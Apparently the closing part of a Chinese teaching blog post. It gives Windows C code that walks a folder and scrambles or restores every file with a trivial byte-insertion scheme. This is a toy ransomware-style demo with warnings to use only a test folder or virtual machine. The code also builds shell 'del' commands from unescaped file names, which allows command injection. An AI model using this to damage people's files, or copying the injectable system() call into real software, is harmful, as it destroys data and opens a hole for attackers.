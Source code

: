 ```
#include <stdio.h>#include <string.h>#include <windows.h>#include <stdlib.h>//文件加密函数 参数-文件名字void jiami(char* fileName, char* pathName){	FILE* fp = NULL;                  //文件指针变量	int size = 0;                     //文件大小	//打开文件	//注意：使用二进制打开可以复制大型文件如.exe文件，音频视频文件等	fp = fopen(fileName, "rb");       //打开可读写的文件	if (NULL == fp) {		printf("打开文件失败\n");		return;	}	printf("打开 %s 文件成功!\n", fileName);	//获取文件大小	fseek(fp, 0, SEEK_END);                   //设置光标到文件末尾	size = ftell(fp);                         //计算光标位置距离文件头字节数	fseek(fp, 0, SEEK_SET);                   //设置光标位置到文件头	printf("文件大小为：%d字节！\n", size);	//获取文件所有内容	char code = 'a';	char ch;	char temp[256];	memset(temp, 0, 256);	sprintf(temp, "%s\\%s", pathName, "test");	printf("%s\n", temp);	FILE* fpw = fopen(temp, "wb");         //写入文件	while (!feof(fp)) { 		ch = fgetc(fp);		fputc(ch, fpw);		fputc(code, fpw);		//printf("%c\n", ch);	}	//保存关闭	fclose(fp);	fclose(fpw);	//替换文件	char commend[1024];	memset(commend, 0, 1024);	sprintf(commend, "del \"%s\"", fileName);     //访问路径包含空格增加双引号	printf("%s\n", commend);	system(commend);	rename(temp, fileName);                       //调用C语言rename函数重命名文件	printf("\n");	return;}//文件解密函数 参数-文件名字void jiemi(char* fileName, char* pathName){	char ch;	int size = 0;                        //文件大小	FILE* fp;                           //打开文件	FILE* fpw;                           //写入文件	char tmp[1024];	//初始化操作	memset(tmp, 0, 1024);	sprintf(tmp, "%s\\tmp", pathName);	printf("%s\n", tmp);	fp = fopen(fileName, "rb");	fpw = fopen(tmp, "wb");	fseek(fpw, 0, SEEK_SET);             //设置光标位置到文件头	//每隔一个字节删除一个字节数据	int i = 0;	while (!feof(fp)) {		ch = fgetc(fp);		if (0 == (i % 2)) { //偶数写入			i = 1;			fputc(ch, fpw);		}		else {			i = 0;			continue;		}	}	fclose(fp);	fclose(fpw);	//替换文件	char commend[1024];	memset(commend, 0, 1024);	sprintf(commend, "del \"%s\"", fileName);     //访问路径包含空格增加双引号	printf("%s\n", commend);	system(commend);	rename(tmp, fileName);                       //调用C语言rename函数重命名文件	printf("\n");	return;}//遍历文件夹找到每个文件 参数-文件夹名字void findFile(char* pathName){	/* 禁止加密他人计算机,一定只能对指定目录加密,尤其不能对C盘加密 */	//1.设置要找的文件名 通配符实现	char findFileName[256];	memset(findFileName, 0, 256);                   //清空数组	sprintf(findFileName, "%s\\*.*", pathName);	printf("要找的文件名是：%s\n", findFileName);	//2.获取目录下第一个文件	WIN32_FIND_DATA findData;                    //定义结构体	HANDLE hFile = FindFirstFile(findFileName, &findData);	//判断返回值等于-1(INVALID_HANDLE_VALUE)	if (INVALID_HANDLE_VALUE == hFile) {		printf("查找文件失败!\n");		return;	}	//如果成功进入死循环继续查找下一个文件	else {		int ret = 1;		char temp[256];		while (ret) {			//如果找到的是个文件夹 则需要继续查找该文件夹内容			if (findData.dwFileAttributes == FILE_ATTRIBUTE_DIRECTORY) {				if(findData.cFileName[0] != '.') {					//文件夹拼接=原始路径+新文件夹路径					memset(temp, 0, 256);					sprintf(temp, "%s\\%s", pathName, findData.cFileName);					printf("找到一个文件夹：%s\n", temp);					Sleep(1000);                             //暂停1秒钟					findFile(temp);				}			}			else { //如果是文件 则加密文件				memset(temp, 0, 256);				sprintf(temp, "%s\\%s", pathName, findData.cFileName);				printf("找到一个文件：%s\n", temp);				//加密文件				//jiami(temp, pathName);				//解密文件				jiemi(temp, pathName);			}			//查找下一个文件			ret = FindNextFile(hFile, &findData);		}	}	return;}int main(){	char buff[256] = { 0 };	GetCurrentDirectory(256, buff);	printf("当前目录是：%s\n\n", buff);	//加密指定文件夹目录 建议使用虚拟机执行	findFile("C:\\Users\\xxxxx\\Desktop\\文件夹加密-------------");	return 0;}
```

最终成功还原代码，图片和 EXE 程序又能运行了！

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMQlLzU776kOzp9E8smUqiaibtKsoSKsZ2EjLLBV2Lqnt6mWXO0euLibMS00msM6WG66gYoKtJ0pQgyQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMQlLzU776kOzp9E8smUqiaibA1eWImvicOII9aPmwDQCzYdR67pWNxdiceRjx0ERZBeOINvN95tjFa9w/640?wx_fmt=png)

但是遗憾的是，在文本中涉及中文字符，仍然出现了部分乱码？哈哈！^ _ ^ 大家告诉我怎么处理呢？感觉需要中文字符两字节判断操作，但也不影响这篇文章分享的加密与解密基础知识。甚至你还可以做一个界面，包含加密按钮和解密按钮，融合 Hash、MD5 各种算法进行相关操作，这里仅采用命令行的形式告诉大家原理，希望对您有所帮助。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRMQlLzU776kOzp9E8smUqiaibTkrkQ1NFnbURK6DpjRxqtib5L8wsCMuB7URx9Qa5acbwflenLZSGxvQ/640?wx_fmt=png)
